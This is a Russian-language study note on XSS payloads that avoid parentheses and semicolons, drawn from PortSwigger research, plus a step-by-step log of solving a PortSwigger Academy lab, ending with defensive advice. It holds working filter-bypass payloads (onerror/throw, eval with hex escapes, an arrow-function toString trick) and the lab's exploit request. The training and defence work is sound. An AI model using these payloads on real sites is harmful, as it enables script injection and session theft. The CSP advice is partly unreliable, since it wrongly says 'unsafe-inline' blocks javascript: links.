

## XSS без круглых скобок и точки с запятой
или 
#### как выполнить JavaScript-код даже если сайт фильтрует круглые скобки `()` и точку с запятой `;`
++ функции в js типа:   x=x=>
-----

бывает, когда waf может ограничивать число символов в параметре
поэтому нужно искать короткие способы выполнения кода

также можно пробовать использовать оператор ==throw==

пример
`onerror=alert;throw 1`

-----
теория опираясь на статью: https://portswigger.net/research/xss-without-parentheses-and-semi-colons

-----

##  Техника 1: onerror + throw (классика)

Базовый приём, который работает без скобок:
```html
<script>onerror=alert;throw 1337</script>
```
как работает: Свойство `onerror` перехватывает все ошибки JS. Оператор `throw` создаёт исключение, которое передаётся в `onerror` вместе с аргументом (здесь 1337) и  вызывается `alert(1337)`
##  Техника 2: Убираем точку с запятой

Чтобы избавиться от `;`, можно использовать блок `{}`:
```html
<script>{onerror=alert}throw 1337</script>
```
фигурные скобки создают блок операторов, после которого `throw` работает без точки с запятой

## Техника 3: throw с несколькими аргументами

можно делать присваивание прямо внутри `throw`:

```html
<script>throw onerror=alert,'some string',123,'haha'</script>
```
последнее выражение в списке становится аргументом для `onerror`

##  Техника 4: eval без скобок

комбинации с `eval` для выполнения произвольного кода:
```html
<script>{onerror=eval}throw'=alert\x281337\x29'</script>
```
в хроме строка, которая попадает в `eval`, начинается с "Uncaught"
 равно нужно `=`, чтобы сделать из "Uncaught" переменную и выполнить код.
- **`Uncaught`** — флаг, что ошибка не обработана
## Firefox и объекты ошибок
В Firefox префикс другой ("uncaught exception"), поэтому трюк с `eval` не работал. Решение — создать объект, имитирующий реальную ошибку:

```html
<script>{onerror=eval}throw{lineNumber:1,columnNumber:1,fileName:1,message:'alert\x281\x29'}
</script>
```
Автор через "инспектор хакабельности" нашёл минимальный набор свойств, который заставляет Firefox думать, что это настоящая ошибка.

## Другие векторы от комьюнити

В статье есть дополнения от других исследователей:
- **От terjanq:** убрал все строковые литералы через хитрые преобразования
- **От Pepe Vila:** вообще отказался от `throw`, используя ошибки типов:

```html
<script>
	TypeError.prototype.name ='=/',0[onerror=eval]['/-alert(1)//']</script>
```


---
лаба https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-url-some-characters-blocked
#### Reflected XSS in a JavaScript URL with some characters blocked
задание:
вызвать аллерт со строкой 1337
	++ waf блокирует спец символы

-----


решение:
лаба эксперт

`главная страница: 

полей ввода текста нет
пробую через url 

GET /?etetett HTTP/2   не отражается 
GET /?7777 HTTP/2      не отражается 
GET /7777 HTTP/2       не найдено
параметров нет 

`страница поста

чтобы не добавлял в url - идет блок
параметров нет 


нашел небольшую зацепку, но она вряд ли поможет

вот запрос нп получение поста
```html
GET /post?postId=3 HTTP/2
Host: 0ab8001c0305c81d80de031400cc000e.web-security-academy.net
Cookie: session=zI0VsQ9z2zAKLJ0mrmwQOCHNQ5mSIIOF
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ab8001c0305c81d80de031400cc000e.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

вот часть ответа где отражается в двух местах номер поста

value="3"
и
< a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d3'}).finally(_ => window.location = '/')">Back to Blog< /a>
```html
<input required type="hidden" name="postId" value="3">
   <label>Comment:</label>
   <textarea required rows="12" cols="300" name="comment"></textarea>
   <label>Name:</label>
   <input required type="text" name="name">
   <label>Email:</label>
   <input required type="email" name="email">
   <label>Website:</label>
   <input pattern="(http:|https:).+" type="text" name="website">
   <button class="button" type="submit">Post Comment</button>
    </form>
    </section>
    <div class="is-linkback">
                                        <a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d3'}).finally(_ => window.location = '/')">Back to Blog</a>
```

но сайт блокирует все запросы кроме валидных номеров страниц...
и так как это отраженная атака, то комменты нет смысла смотреть

сервер ждет от этого места только тип числовой

разбор места куда подставляется число id поста
```js
<a
href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d3'}).finally(_ => window.location = '/')">Back to Blog
</a>
```

%3f   это знак ? в html кодировке
%3d  это знак = в html кодировке

пробовать символы в кодировке html

%27    '    нет  блок 400 "Invalid blog post ID"
%22    "    нет
%3C    <   нет
%3F     ?    нет
%28     (    нет
%2F     /    нет
%5C    \    нет
%26   &    нет
и их комбинации

вот это место '/post%3fpostId%3d3'  это путь

#####   &'   проходит...
%26%27 нет

GET /post?postId=5&' HTTP/2    ⭐️ проходит!



вот так отражается в ответе
```html
                                       <a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d5%26%27'}).finally(_ => window.location = '/')">Back to Blog</a>
```

то есть сервер проверяет параметр postId
postId=5 а когда я делаю postId=5&тип_тут_новый параметр
то следующий параметр сервер не проверяет

и я уже могу много чего тут написать и это еще и отражается в ответе!

GET /post?postId=5&xxe77<>77 HTTP/2   ответ 200

даже это 
`GET /post?postId=5&xxe77<>77'"() HTTP/2`
проходит 
и отражается в ответе
```html
<a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d5%26xxe77%3c%3e77%27"'}).finally(_ => window.location = '/')">Back to Blog
</a>
```


теперь все что осталось - это лишь выйти из href и написать свой пейлоад туда

запрос    xxe77 
ответ
 ```html
                                        <a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d5%26xxe77'}).finally(_ => window.location = '/')">Back to Blog</a>
 ```

 заканчивается на )"
 попробую подставить

----
запрос    )"xxe77 
ответ
```html
                                       <a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d5%26"xxe77'}).finally(_ => window.location = '/')">Back to Blog</a>
```

{method:'post',body:'/post%3fpostId%3d5%26"xxe77'}) 
видно . что все это дело вставляется в { }

---

запрос    })"xxe77 
ответ
```html
                                       <a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d5%26}"xxe77'}).finally(_ => window.location = '/')">Back to Blog</a>
```
вроде выходит из контекста . но потом применяется finally


-----
запрос    })"xxe77{
ответ
```html
                                       <a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d5%26}"xxe77//'}).finally(_ => window.location = '/')">Back to Blog</a>
```
все попадает в эти скобы {  }


------

запрос GET /post?postId=5&})"xxe77{' HTTP/2
ответ
```html
                                       <a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d5%26}"xxe77{%27'}).finally(_ => window.location = '/')">Back to Blog</a>
```
как будто бы получилось вырваться с контекста и вместо xxe77 подставить пейлоад уже почти... но  cправа  кавычку } и скабу ) нужно закрыть тоже - переставить кавычку нужно

-----

запрос GET /post?postId=5&'})"xxe77{ HTTP/2
ответ
```html
                                       <a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d5%26%27}"xxe77{'}).finally(_ => window.location = '/')">Back to Blog</a>
```
сколько бы я не пытался поставить (  ) круглых скобок - они блокируются!

 
GET /post?postId=5&'})";xxe77({ HTTP/2

; точк/запят - кодируется - поэтому бесполезно использовать
( ) круг скобки удаляются ваще

---
----

GET /post?postId=5&'})"{onerror=alert}throw 
ответ
```html
                                       <a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d5%26%27}"{onerror%3dalert}throw+1337{'}).finally(_ => window.location = '/')">Back to Blog
                                       </a>
```

вроде как почти получается высвободиться из строки 
но алерт не вызывается, но я все еще нахожусь внутри  body


вот так сейчас "{' postID=5}"   нужно закрыть кавычку '

запрос 
&'})'"{onerror=alert}throw
```html
<a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d5%26%27}%27"{onerror%3dalert}throw+1337//'}).finally(_ => window.location = '/')">Back to Blog</a>
```
кавычка закодировалась в %27 
если подставлять ; тоже кодируется в %3b

значит нужно закрывать это дело другим способом: так как кавычки и ; не работают


&'})'"{{onerror=alert}throw+1337

------

смотрю решение, недогоняю уже сам далее, мало опыта

`&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'

`&'})'"{{onerror=alert}throw+1337


срабатало

```http
GET /post?postId=5&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:' HTTP/2
Host: 0ab8001c0305c81d80de031400cc000e.web-security-academy.net
Cookie: session=zI0VsQ9z2zAKLJ0mrmwQOCHNQ5mSIIOF
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Saftari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ab8001c0305c81d80de031400cc000e.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

ссылка
`https://0ab8001c0305c81d80de031400cc000e.web-security-academy.net/post?postId=5&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'`

при переходе и при нажатии на кнопку ту - выходит аллерт

овтет
```html
                                       <a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d5%26%27},x%3dx%3d%3e{throw/**/onerror%3dalert,1337},toString%3dx,window+%27%27,{x%3a%27'}).finally(_ => window.location = '/')">Back to Blog</a>
```


---------
разбор рабочего пейлоада
`&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'

кавычки, скобки ( ) и ; точк с запятой   кодировались сервером

все началось с того, что сервер пропустил & как разделитель параметров
кстати говоря, в самих оригинальных запросах я видел этот символ
наверно поэтому они его не могли заблокировать тоже

далее я закрывал скобки скопы, кавычки где только можно!
и вроде как вышло вырваться из скопа, но вот дальше я подсмотрел решение уже  

-----
x=x=> это  сокращенная запись функции

Это стрелочная функция. Обычно пишут (a, b) => { return a + b }. Но тут особый случай - x=x=>{...}. Это значит:

- Первый x - это имя переменной, куда сохраняется функция
   
- Второй x - это имя параметра, который принимает функция
   
- => - стрелка, отделяющая параметры от тела
   
- {...} - тело функции
   

короче- это обычная функция с одним параметром x, которая возвращает то, что написано в фигурных скобках. Просто для краткости убрали лишние скобки у параметра, потому что параметр один.

-----


### как защититься от таких атак


1. использовать правильное кодирование для контекста. недостаточно просто заменять `'` на `\'`. В этом случае данные вставлялись в JavaScript строку, поэтому нужно было использовать JavaScript-экранирование (например, `\x27`) или, что ещё лучше, JSON-сериализацию (`JSON.stringify`), которая безопасно преобразует любые данные в строку.
   
2. не полагаться на чёрные списки. злоумышленники всегда найдут обход, как мы видели на примере `/**/` вместо пробела и использования `throw` вместо прямого вызова.
   
3. применять Content Security Policy (CSP). правильная CSP может заблокировать выполнение инлайн-кода, как в этой ссылке `javascript:...`, даже если внедрение удастся. Например, директива `script-src 'self'` разрешит только скрипты из того же источника, а `javascript:` ссылки можно запретить директивой `script-src 'unsafe-inline'` (которую лучше не использовать) или вовсе не полагаться на них.
   
4. избегать использования `javascript:` в ссылках. Гораздо безопаснее использовать обработчики событий, привязанные через JavaScript, или вообще делать это на стороне сервера.
   
5. валидировать входные данные. Ожидая число `postId`, нужно проверять, что это действительно число, а не отсекать только часть параметров.


